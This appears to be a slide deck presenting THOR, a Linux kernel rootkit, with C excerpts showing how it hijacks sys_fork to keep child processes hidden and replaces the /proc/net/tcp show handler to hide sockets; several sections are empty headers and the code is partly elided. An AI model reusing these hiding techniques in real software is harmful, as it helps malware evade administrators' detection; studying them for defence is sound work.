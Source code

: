 ```yaml
---
title: 'THOR'
subtitle: 'The ~~Horrific~~ Hopefully Omnipotent Rootkit'
author: [
    Alex Hirsch,
    FraJo Haider,
]
date: 2015-01-30
---
```


# Intro

## Features

- works with recent kernel
- hide files by name
- hide kernel modules
- hide processes
- hide sockets
- automatically handles forked processes
- hijack kernel functions

# Communication

# Handling Forks

## Init and Cleanup

```{.c .numberLines}
static long (*sys_fork)(void);

int pidhider_init(void)
{
    /* ... */

    sys_fork = (void*) kallsyms_lookup_name("sys_fork");

    /* error handling */

    hijack(sys_fork, thor_fork);
}

void pidhider_cleanup(void)
{
    if (sys_fork != NULL) {
        unhijack(sys_fork);
    }
}
```

## `thor_fork()`

```{.c .numberLines}
static long thor_fork(void)
{
    bool hidden = is_pid_hidden(current->pid);
    long ret;

     unhijack(sys_fork);
     ret = sys_fork();
     hijack(sys_fork, thor_fork);

     /* if mother process was hidden child process */
     if(hidden && ret != -1 && ret != 0) {
         add_to_pid_list((unsigned short) ret);
     }

     return ret;
}
```

# Hijacking Explained (DEMO)

## Simpler method

Will be shown in the next part.

# Hiding Process

# Hiding Kernel Modules

# Hiding Files

# Hiding Sockets

## Init and Cleanup

```{.c .numberLines}
typedef int (*seq_show_fun)(struct seq_file*, void*);

static seq_show_fun orig_tcp4_seq_show;

int sockethider_init(void)
{
    orig_tcp4_seq_show = replace_tcp_seq_show(thor_tcp4_seq_show,
                                              "/proc/net/tcp");

    /* ... */
}

void sockethider_cleanup(void)
{
    replace_tcp_seq_show(orig_tcp4_seq_show, "/proc/net/tcp");

    /* ... */
}
```

## `replace_tcp_seq_show()`

```{.c .numberLines}
static seq_show_fun replace_tcp_seq_show(seq_show_fun new_seq_show,
                                         const char *path)
{
    void *old_seq_show;
    struct file *filp;
    struct tcp_seq_afinfo *afinfo;

    if ((filp = filp_open(path, O_RDONLY, 0)) == NULL)
        return NULL;

    afinfo = PDE_DATA(filp->f_dentry->d_inode);

    old_seq_show = afinfo->seq_ops.show;

    afinfo->seq_ops.show = new_seq_show;

    filp_close(filp, 0);

    return old_seq_show;
}
```

## `thor_tcp4_seq_show()`

```{.c .numberLines}
static int thor_tcp4_seq_show(struct seq_file *seq, void *v)
{
    /* hide port */
    if (v != SEQ_START_TOKEN && is_socket_process_hidden(v))
        return 0;

    /* call original */
    return orig_tcp4_seq_show(seq, v);
}
```

# Outro

## Take a look

Github: <http://git.io/ZwNdCQ>

\centerline{\includegraphics[height=160px]{gfx/qrcode.png}}

# In Action (DEMO)
